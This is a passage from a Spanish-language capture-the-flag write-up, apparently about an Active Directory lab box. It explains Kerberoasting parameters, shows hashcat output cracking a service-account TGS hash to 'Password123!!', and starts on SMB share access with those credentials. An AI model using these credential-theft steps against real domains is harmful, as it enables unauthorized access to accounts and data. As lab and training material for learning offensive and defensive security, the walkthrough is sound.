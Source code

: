 #### Parámetros explicados:

- `SOUPEDECODE.LOCAL/ybob317:ybob317`: Usuario y contraseña válidos.
- `-dc-ip 10.201.67.29`: Dirección IP del **Controlador de Dominio (DC)**.
- `-request`: Solicita los TGS (tickets de servicio) que serán vulnerables a Kerberoasting.
- `-outputfile`: Guarda los hashes obtenidos en un archivo.

**Resultado:**  
Se extrajeron varios hashes Kerberos TGS vinculados a cuentas de servicio como `file_svc`, `firewall_svc`, `backup_svc`, etc.
### **Cracking offline de hashes TGS**

Una vez obtenidos los hashes, se utilizaron herramientas como **Hashcat** para crackearlos offline y recuperar la contraseña en texto plano de alguna cuenta de servicio.

```bash
krb5tgs$23$*file_svc$SOUPEDECODE.LOCAL$SOUPEDECODE.LOCAL/file_svc*$2f0e616a46538f06:Password123!!
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*file_svc$SOUPEDECODE.LOCAL$SOUPEDECODE...8eb5cc
Time.Started.....: Mon Aug  4 21:31:13 2025, (12 secs)
Time.Estimated...: Mon Aug  4 21:31:25 2025, (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   917.6 kH/s (1.04ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10732581/14344385 (74.82%)
Rejected.........: 2085/10732581 (0.02%)
Restore.Point....: 10731044/14344385 (74.81%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Patrick812 -> ParadornSIGGRAPH
Hardware.Mon.#1..: Util: 76%

Started: Mon Aug  4 21:31:12 2025
Stopped: Mon Aug  4 21:31:26 2025

```

📌 **Hash crackeado exitosamente**:

- Usuario: `file_svc`
- Contraseña: `Password123!!`

Esta contraseña es **débil** y común, lo cual permitió su rápida recuperación. Esto es un clásico fallo en entornos donde no se aplican políticas de complejidad robustas.

### **Acceso a recursos compartidos vía SMB**

Con las credenciales de `file_svc`, se intentó acceder a comparticiones SMB disponibles, en busca de archivos sensibles o mal configuraciones.
